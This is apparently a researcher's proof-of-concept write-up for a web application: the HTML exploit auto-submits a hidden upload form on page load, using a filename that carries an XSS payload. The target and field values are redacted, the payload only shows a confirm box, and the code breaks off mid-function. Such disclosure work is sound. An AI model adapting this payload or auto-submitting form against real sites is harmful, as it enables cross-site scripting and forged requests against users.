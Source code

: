 ### 2. Crafts a Malicious File:

- A base64-encoded string representing a simple text file is decoded.
- A malicious file name is crafted containing an XSS payload:
```html
<img src=1 onerror=confirm('XSS_by_MrSaighnal')>.txt
```
- This filename is designed to trigger JavaScript execution (XSS) if it is later displayed by a vulnerable web application without proper sanitization.

### 3. Creates a Hidden File Input:

- A hidden file input element is created and the malicious file is assigned to it.
- The file is attached to the form programmatically using DataTransfer() to simulate a user file upload.

### 4. Automatically Submits the Form:

- The form is submitted automatically as soon as the page is loaded.
- The crafted payload is uploaded to the target endpoint without user interaction.

exploit.html
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Form Submission</title>
</head>
<body>
    <!-- Form that will be dynamically populated and submitted via JavaScript -->
    <form id="dynamicForm" action="REDACTED" method="POST" enctype="multipart/form-data">
        <input type="submit" id="submitButton" value="Submit request" />
    </form>

    <script>
        const form = document.getElementById('dynamicForm');

        // Function to create a hidden input field
        function createHiddenInput(name, value) {
            const input = document.createElement('input');
            input.type = 'hidden';
            input.name = name;
            input.value = value;
            return input;
        }

        // Add hidden inputs to the form
        form.appendChild(createHiddenInput('REDACTED', 'REDACTED'));
        form.appendChild(createHiddenInput('REDACTED', 'REDACTED'));
        form.appendChild(createHiddenInput('REDACTED', 'REDACTED'));
        form.appendChild(createHiddenInput('REDACTED', 'REDACTED'));
        form.appendChild(createHiddenInput('REDACTED', 'REDACTED'));

        // Base64-encoded string of a sample file (image)
        const base64String = 'dGVzdA==';
        const fileName = '<img src=1 onerror=confirm(\'XSS_by_MrSaighnal\')>.txt';
        const mimeType = 'plain/text';

        // Function to convert a base64 string to a Blob
        function base64ToBlob(base64, mimeType) {
            const binary = atob(base64);
            const len = binary.length;
            const buffer = new Uint8Array(len);
```
